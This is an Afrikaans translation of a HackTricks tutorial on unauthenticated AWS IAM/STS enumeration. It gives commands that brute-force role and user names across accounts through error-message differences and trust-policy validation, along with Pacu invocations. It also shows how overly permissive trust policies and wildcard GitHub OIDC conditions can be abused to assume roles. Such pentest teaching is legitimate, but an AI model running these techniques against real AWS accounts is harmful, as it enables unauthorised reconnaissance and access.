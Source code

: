 # AWS - IAM & STS Ongeverifieerde Enum

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy in HackTricks wil adverteer** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Enumereer Rolle & Gebruikersname in 'n rekening

### ~~Veronderstel Rol Brute-Force~~

{% hint style="danger" %}
**Hierdie tegniek werk nie** meer nie, aangesien jy altyd hierdie fout kry, of die rol bestaan of nie:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Jy kan dit **toets deur** die volgende uit te voer:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

As jy probeer om 'n rol aan te neem sonder die nodige toestemmings, sal dit 'n AWS-foutboodskap veroorsaak. Byvoorbeeld, as jy ongemagtig is, kan AWS die volgende terugstuur:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Hierdie boodskap bevestig die bestaan van die rol, maar dui aan dat sy aanname rol beleid nie jou aanname toelaat nie. Daarenteen, as jy probeer om 'n nie-bestaande rol aan te neem, lei dit tot 'n ander fout:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Interessant genoeg is hierdie metode van **onderskeiding tussen bestaande en nie-bestaande rolle** selfs toepaslik oor verskillende AWS-rekeninge. Met 'n geldige AWS-rekening-ID en 'n geteikende woordelys kan 'n mens die rolle in die rekening opnoem sonder om enige inherente beperkings te ondervind.

Jy kan hierdie [skripsie gebruik om potensiële beginsels op te noem](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) deur van hierdie probleem misbruik te maak.

### Vertrouensbeleide: Brute-Force Cross Account rolle en gebruikers

Die konfigurering of opdatering van 'n **IAM-rol se vertrouensbeleid behels die definisie van watter AWS-hulpbronne of dienste toegelaat word om daardie rol aan te neem** en tydelike geloofsbriewe te verkry. As die gespesifiseerde hulpbron in die beleid **bestaan**, word die vertrouensbeleid **suksesvol** gestoor. As die hulpbron egter **nie bestaan nie**, word 'n **fout gegenereer** wat aandui dat 'n ongeldige beginsel verskaf is.

{% hint style="warning" %}
Let daarop dat jy in daardie hulpbron 'n kruisrekeningrol of -gebruiker kan spesifiseer:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Hier is 'n beleidsvoorbeeld:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Dit is die **fout** wat jy sal vind as jy 'n **rol gebruik wat nie bestaan nie**. As die rol **bestaan**, sal die beleid **sonder enige foute gestoor** word. (Die fout is vir opdatering, maar dit werk ook wanneer jy skep)

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Jy kan hierdie proses outomatiseer met [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Of gebruik [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Die `admin` rol wat in die voorbeeld gebruik word, is 'n **rol in jou rekening wat geïmpersonaliseer moet word** deur pacu om die beleide te skep wat dit nodig het vir die opname

### Privesc

In die geval dat die rol sleg gekonfigureer is en enige iemand dit kan aanneem:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Die aanvaller kan dit net aanneem.

## Derde Party OIDC Federasie

Stel jou voor dat jy in staat is om 'n **Github Actions workflow** te lees wat toegang het tot 'n **rol** binne **AWS**.\
Hierdie vertroue mag toegang gee tot 'n rol met die volgende **vertrouensbeleid**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Hierdie vertrouensbeleid mag korrek wees, maar die **gebrek aan meer voorwaardes** moet jou wantrouig maak. Dit is omdat die vorige rol aangeneem kan word deur **ENIGEEN van Github Actions**! Jy moet ook ander dinge soos organisasienaam, herponaam, omgewing, tak spesifiseer in die voorwaardes...

'n Ander potensiële konfigurasiefout is om **'n voorwaarde by te voeg** soos die volgende:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Let daarop dat **wildcard** (\*) voor die **kolon** (:). Jy kan 'n organisasie soos **org\_name1** skep en die rol aanneem vanaf 'n Github-aksie.

## Verwysings

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
